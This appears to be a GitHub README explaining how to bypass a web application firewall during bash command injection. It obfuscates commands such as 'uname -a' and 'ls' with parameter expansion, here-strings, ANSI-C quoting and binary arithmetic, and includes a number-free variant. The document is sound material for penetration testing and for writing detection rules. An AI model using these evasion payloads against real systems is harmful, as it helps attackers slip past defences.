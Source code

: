 # Using bash to bypass WAF in a Command Injection scenario
Bash Command Injection WAF Bypass

<img src="cmd-injection.png" align="center">

### Manual Conversion:

- [UCS-4 Little Endian -> Bytes Radix (octal)](https://onlineunicodetools.com/convert-unicode-to-bytes)
- [Decimal -> Binary](https://www.rapidtables.com/convert/number/decimal-to-binary.html)

<br>

<hr>

<br>

> `uname -a`: <br>
```bash
${!##\-}<<<{\$\'\\$(($((1<<1))#10100101))\\$(($((1<<1))#10011100))\\$(($((1<<1))#10001101))\\$(($((1<<1))#10011011))\\$(($((1<<1))#10010001))\',\$\'\\$(($((1<<1))#110111))\\$(($((1<<1))#10001101))\'}
```
> Using a **comma** `,` from **Brace Expansion** so it acts like a **space**. <br>
> The reason why we use **Brace Expansion**: <br>
```console
$ echo {ola,mundo}
ola mundo
```

> In short, this is what's happening: ([Click to see full explanation](#full-explanation))
- `{\$\'command1\',\$\'command2-or-argument2\'}`

<br>

<hr>

<br>

### Video Example:

[![Link](https://img.youtube.com/vi/B4mpV44Z1-8/0.jpg)](https://www.youtube.com/watch?v=B4mpV44Z1-8)

<br>

<hr>

<br>

### Full Explanation:

```bash
### idea: @sirifu4k1

# My final payload:
# ${0##\-}<<<$\'\\$(($((1<<1))#10011010))\\$(($((1<<1))#10100011))\'
# Let's understand what the hell is happening here.

## 1.1: ${0##\-}
# ${} is a parameter expansion; "$0" == is the first parameter, which is the script itself.
# Since we're "executing" "$0" straight on the shell, the program that is getting executed is bash
# But on my shell, bash had a little "-" dash sign next to the "b" letter of bash, so I removed it
# using parameter expansion (${0##\-} == removes the dash "-" from "-bash", and we're left with "bash")

## 1.2: <<<
# A "Here String" is used for input redirection from text or a variable.
# For example: (counting the words of a given file called about.txt)
$ wc -l <<< about.txt
1 # (output as an example)

## 1.3: $\' ... \'
# First of all, "$'Something\nSomething-else'" causes escape sequences to be interpreted.
# So we can call a UTF-8 octal to be interpreted to text, just like so (154 in octal == l; 163 in octal == s):
$'\154\163'

# Another example:
$'\151\144' # 151 == i; 144 == d (id gets interpreted as a command)

## 1.4: \\$(( $(( 1 << 1 ))#10011010)) \\$(( $(( 1 << 1))#10100011 ))
# $(()) == POSIX arithmetic expansion
# Note: (man bash)
# Words of the form $'string' are treated specially. The word expands to
# string, with backslash-escaped characters replaced as specified by the ANSI C
# standard.

# Note:
# The "\\" (double backslash) characters are necessary in order to force the shell to pass
# a "\$" (single backslash, dollar sign) to the arithmetic expansion.

### 2.4: $(( $((1<<1))#10011010 ))
# 1<<1 == 2
# base#number == performing calculations between different arithmetic bases [base#]number
#                base is a decimal integer between 2 and 36 that specifies the arithmetic base. (default is base 10)

# Enclosing two arithmetic expansion inside of each other, so that 2#10011010 (octal "154" to binary is "10011010") is equal to 154
# 167 150 157 :: 10100111 = w; 10010110 = h; 10011101 = o

### 3.4: $(( $((1<<1))#10100011 ))
# Is exatcly the same concept as I mentioned previously (at 2.4), and we're left with 163 (octal)

# Conclusion:
# This whole mess will give us the result $'\154\163', which is "ls"
# or echo -e "\0154\163" to print it as a string

# Image explanation, by @sirifu4k1
# https://pbs.twimg.com/media/FqJd-irakAEBPh_.jpg


# Bonus without using numbers:
# ${0##\-}<<<$\'\\$(($((${##}<<${##}))#${##}${#}${#}${##}${##}${#}${##}${#}))\\$(($((${##}<<${##}))#${##}${#}${##}${#}${#}${#}${##}${##}))\'
                                        ^ 10011010                                                   ^ 10100011

${##} == 1
${#}  == 0

echo -ne "${##}${#}${#}${##}${##}${#}${##}${#} ${##}${#}${##}${#}${#}${#}${##}${##}\n"
```
